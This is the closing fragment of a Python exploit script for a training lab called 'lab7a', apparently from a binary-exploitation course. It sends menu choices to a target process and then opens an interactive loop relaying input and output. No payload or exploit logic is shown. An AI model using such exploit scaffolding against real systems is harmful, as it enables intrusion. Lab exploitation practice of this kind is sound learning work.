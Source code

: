 ```python
            lab7a_exploit.send_and_receive(b"4\r\n")
            lab7a_exploit.send(b"1\r\n")
            while 1:
                in_ = bytes(input("> ") + "\n", "utf-8")
                if in_ == b"-1\n":
                    break
                print(lab7a_exploit.send_and_receive(in_, timeout=1))

        except EOFError:
            pwnlog.warning("Process tube closed unexpectedly")
        except KeyboardInterrupt:
            pwnlog.warning("Keyboard-Interrupt, exiting.")


if __name__ == "__main__":
    exploit()
```
